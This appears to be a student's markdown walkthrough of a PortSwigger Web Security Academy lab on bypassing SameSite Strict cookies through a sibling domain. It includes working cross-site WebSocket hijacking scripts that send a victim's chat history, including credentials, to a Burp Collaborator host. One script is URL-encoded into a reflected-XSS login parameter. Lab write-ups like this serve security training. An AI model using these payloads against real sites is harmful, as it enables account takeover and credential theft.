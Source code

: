 # SameSite Strict bypass via sibling domain

## This lab's live chat feature is vulnerable to [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) ([CSWSH](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)). To solve the lab, log in to the victim's account.

## To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## If you haven't done so already, we recommend completing our topic on [WebSocket vulnerabilities](https://portswigger.net/web-security/websockets) before attempting this lab.

`https://0a74003f04ae070c81a0d930002f007f.web-security-academy.net/chat`

---

### step 1

open lab click on live chat and see history in burpsute

![](images/lab9_cms_link_dulicate_url.jpg)

### step2

`https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net`
click on cms link
it will open login page

![](images/lab9_cms_login_page.jpg)

click on login alert pop will com

![](images/lab9_cms_link_alert_pop.jpg)

### step3

copy chat url
`https://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`

for making chat url
remove https and add wss
`wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`
use below script

### HINT:

```html
<script>
  var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://YOUR-COLLABORATOR-PAYLOAD.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

change according to script and upload to explot and store and view expolit and pull burp collebrator

```html
<script>
  var ws = new WebSocket(
    "wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat"
  );
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://cdtqf729k3ob5xfk7n3ezkm80z6qugi5.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

![](images/lab9_burpcollab_http_dns.jpg)

![](images/lab9_chat_after_payload_samesite_strict.jpg)

before payload
it was without same site
![](images/lab9_chat_page_no_same_site.jpg)

### step4

### HINT:

```html
<script>
  document.location =
    "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

change according to script and put into expolit and pull burp colleb

```html
<script>
  document.location =
    "https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%62%64%30%30%39%34%30%33%36%64%62%36%35%65%38%32%64%32%35%63%37%35%30%30%35%34%30%30%30%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%63%64%74%71%66%37%32%39%6b%33%6f%62%35%78%66%6b%37%6e%33%65%7a%6b%6d%38%30%7a%36%71%75%67%69%35%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

![](images/lab9_burpcollab_username_password.jpg)
